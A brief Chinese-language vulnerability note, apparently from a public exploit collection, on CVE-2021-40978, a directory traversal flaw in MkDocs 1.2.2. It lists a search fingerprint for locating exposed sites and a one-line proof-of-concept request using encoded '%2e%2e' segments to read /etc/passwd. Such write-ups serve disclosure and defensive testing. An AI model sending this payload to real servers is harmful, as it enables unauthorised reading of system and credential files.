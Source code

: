 # MKdocs 任意文件读取漏洞 CVE-2021-40978

## 漏洞描述

MKdocs中存在通过 %2e%2e 来遍历目录，读取敏感文件

## 漏洞影响

```
Mkdocs 1.2.2
```

## 网络测绘

```
title="My Docs"
```

## 漏洞复现

主页面

![image-20220524152422662](images/202205241524715.png)

验证POC

```
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![image-20220524152444205](images/202205241524264.png)